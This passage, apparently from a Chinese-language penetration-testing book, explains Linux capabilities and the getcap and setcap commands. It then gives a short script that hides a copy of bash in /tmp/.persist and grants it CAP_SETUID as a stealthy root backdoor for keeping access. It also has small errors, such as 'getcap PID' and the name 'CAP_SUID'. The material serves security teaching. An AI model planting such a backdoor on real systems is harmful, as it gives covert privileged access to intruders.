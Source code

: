 下面是如何查看进程能力的一个示例：

```
 $ getcap /path/to/executable
```

下面是如何设置可执行文件能力的一个示例：

```
 $ sudo setcap cap_setuid=+ep /path/to/executable
```

此命令将 `CAP_SUID` 能力授予指定的可执行文件。

要查看正在运行的进程的能力，请运行以下命令，将`PID`替换为你想检查的进程 ID：

```
 $ getcap PID
```

能力的`=eip`后缀提供了一种精确控制进程可用能力及其如何被使用或传递给子进程的方式。这种细粒度的控制使得系统管理员可以实施最小特权原则，只授予进程执行所需的特定能力，而不是给予其完全的 root 权限。

`=eip` 后缀表示 *有效*、*可继承* 和 *许可* 的能力集。这个后缀用于设置或查看 Linux 系统上支持精细化权限控制的文件或进程的能力。

为了理解`=eip`，我们来逐一解析：

+   `e` – *有效*：这些是当前进程正在使用的能力。

+   `i` – *可继承*：这些能力可以被子进程继承。

+   `p` – *许可*：这些是进程允许使用的能力。

当你看到一个带有`=eip`后缀的能力时，意味着该能力已被设置为所有三个集合：有效、可继承和允许。

例如，如果你将`CAP_SETUID`能力设置到一个文件上，并且其值为`=eip`，你可以使用如下命令：

```
 $ sudo setcap cap_setuid=eip /path/to/file
```

该命令将`CAP_SETUID`能力设置为有效、可继承且允许的，适用于指定的文件。

这是一个使用 Linux 能力维持持续访问权限的例子，且操作隐蔽。这个脚本展示了如何使用 Linux 能力保持访问权限。你可以在本章的 GitHub 代码库中找到它，文件名为`ch12_capabilities.sh`：

```
 #!/usr/bin/env bash
# Create a hidden directory
mkdir /tmp/.persist
# Copy /bin/bash to the hidden directory
cp /bin/bash /tmp/.persist/shell
# Set the CAP_SETUID capability on the copied shell
setcap cap_setuid+ep /tmp/.persist/shell
```

让我们仔细看一下这段代码：

1.  首先，它会在`/tmp`中创建一个隐藏目录。

1.  脚本将 Bash shell 复制到这个隐藏位置。

1.  然后，它使用`setcap`命令将`CAP_SETUID`能力添加到复制的 shell 中。这个能力使得 shell 可以设置用户 ID，从而有效地赋予其类似 root 的权限。
